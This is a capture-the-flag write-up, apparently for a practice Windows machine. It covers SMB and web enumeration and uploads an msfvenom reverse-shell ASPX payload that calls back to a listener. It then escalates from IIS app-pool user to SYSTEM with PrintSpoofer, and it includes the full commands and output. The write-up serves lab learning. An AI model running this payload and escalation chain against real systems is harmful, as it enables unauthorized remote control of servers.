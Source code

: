 Running `gobuster` on it reveals there is a directory /nt4wrksv/ ... just like the on on SMB, if we actually try to access the file from SMB via the browser we can using the right path: `/nt4wrksv/passwords.txt`... Now this is interesting.

Running `smbmap` on the server we can see we have write access to the `/nt4wrksv/` location
```
$ smbmap -H 10.10.125.76 -u 'z3nn' -p ''
[+] Guest session       IP: 10.10.125.76:445    Name: unknown
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        nt4wrksv                                                READ, WRITE
```

# Exploit
Now that we have knowledge of the vulnerability and our entry point in the system it's time to exploit it... I used [PenTest.WS](https://pentest.ws/) to create a `MSF Venom` payload
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=1.1.1.1 LPORT=8585 -f aspx -o reverso.aspx
```

Upload payload to SMB server in `/nt4wrksv/` location

Start a netcat listener or... use the PenTest.WS `msfconsole` command it creates for you to open as a listener to this payload:
```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/shell/reverse_tcp; set LHOST 1.1.1.1; set LPORT 8585; run"
```

Access the payload via the web interface at /nt4wrksv/reverso.axp

We're in! Get the user flag.

# PrivEsc
PrivEsc was a bit funky, I did not expect it to be so easy... this machine was a slap in the face if you try too hard.

Thanks to `TheMayor`'s github repo we can download an already built `PrintSpoofer.exe` from here: [repo](https://github.com/dievus/printspoofer)

Upload that to the SMB server as we did with the reverse shell and run it...
```
c:\Users\Bob\Desktop>whoami
whoami
iis apppool\defaultapppool
..........
c:\inetpub\wwwroot\nt4wrksv>spoof.exe -i -c cmd
spoof.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

That's it... get root flag and get out.
